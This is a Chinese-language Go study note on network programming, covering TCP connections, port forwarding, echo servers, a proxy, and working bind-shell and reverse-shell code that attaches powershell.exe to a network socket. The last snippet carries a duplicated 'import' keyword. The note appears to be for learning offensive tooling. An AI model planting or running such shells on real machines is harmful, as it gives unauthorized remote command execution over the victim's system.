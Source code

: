 ```yaml
---
created: '21/06/06 08:51'
title: 第二章-网络连接
tags:
  - golang
---
```


# 第二章-网络连接

### 建立TCP连接与代理

- 简单地连接到某个ip和端口

   ```Go
   package main
   
   import (
     "fmt"
     "net"
   )
   
   func main() {
     conn, err := net.Dial("tcp", "scanme.nmap.org:80")
     defer conn.Close()
     if err == nil {
       fmt.Println("Connect success")
     }
   }
   
   ```


- 简单地实现端口转发

   ```Go
   package main
   
   import (
     "io"
     "log"
     "net"
     "strings"
   )
   
   func proxy(conn net.Conn) {
     dst, err := net.Dial("tcp", "localhost:80")
     defer func() {
       dst.Close()
       conn.Close()
     }()
     if err != nil {
       log.Fatalf("Error: %v\n", err)
     }
     go func() {
       if _, err := io.Copy(dst, conn); err != nil && !strings.Contains(err.Error(), "closed") {
         log.Printf("2 Error: %v\n", err)
       }
     }()
     if _, err := io.Copy(conn, dst); err != nil && !strings.Contains(err.Error(), "closed") {
       log.Printf("1 Error: %v\n", err)
     }
   }
   
   func main() {
     listener, err := net.Listen("tcp", ":8888")
     if err != nil {
       log.Fatalf("Error: %v\n", err)
     }
     for {
       conn, err := listener.Accept()
       if err != nil {
         log.Fatalf("Error: %v\n", err)
       }
       go proxy(conn)
     }
   }
   ```


### echo服务器的三种实现方式

1. 最底层的实现方式,使用`net.Conn.Read`和`net.Conn.Write`底层函数

2. 使用golang自带的bufio包,使用`bufio.NewReader.ReadString`和`bufio.NewWriter.WriteString`实现,自带缓存,在写入的时候可能需要flush才能立即显示

3. 使用golang自带的io包,使用`io.Copy(dst *io.Writer, src *io.Reader)`实现,可以自己实现Reader和Writer,只需要实现` Read(b []byte) (int, error)`或`Write(b []byte) (int, error)`即可

### 简单代理的实现方式

**核心**

- 使用net.Listen监听端口建立服务器

- 当监听到新的连接时交给一个新的协程处理

- 协程中使用net.Dial连接到需要代理的目标,并使用io.Copy将请求源的请求发送至目标(起一个新的协程),将目标的响应发送至请求源

### Golang正向shell的实现方式

**核心**

- 使用net.Listen监听端口建立服务器

- 当监听到新的连接时交给一个新的协程处理

- 协程大致流程


 ```Go
 import (
   "io"
   "log"
   "net"
   "os/exec"
 )
 
 func handle(conn net.Conn) {
   cmd := exec.Command("powershell.exe")
   rp, wp := io.Pipe()
   cmd.Stdin = conn     // read input from conn
   cmd.Stdout = wp      
   cmd.Stderr = wp      
   go io.Copy(conn, rp) // read output to conn
   cmd.Run()
   conn.Close()
 }
 
 func handle2(conn net.Conn) { // 后来发现可以直接这样
   cmd := exec.Command("powershell.exe")
   cmd.Stdin = conn
   cmd.Stdout = conn
   cmd.Stderr = conn
   cmd.Run()
   conn.Close()
 }
 
 func main() {
   listener, err := net.Listen("tcp", ":20080")
   if err != nil {
     log.Fatalln("Unable to bind to port")
   }
   log.Println("Listening on 0.0.0.0:20080")
   for {
     conn, err := listener.Accept()
     if err != nil {
       log.Fatalln("Unable to accept connetcion")
     }
     go handle(conn)
   }
 }
 ```


### Golang反向shell实现方式

**核心**

和正向shell一样

 ```Go
 import import (
   "io"
   "net"
   "os/exec"
 )
 
 func handle2(conn net.Conn) { // 后来发现可以直接这样
   cmd := exec.Command("powershell.exe")
   cmd.Stdin = conn
   cmd.Stdout = conn
   cmd.Stderr = conn
   cmd.Run()
   conn.Close()
 }
 
 func main() {
   reConn, _ := net.Dial("tcp", "127.0.0.1:8888")
     handle2(reConn);
 }
 ```

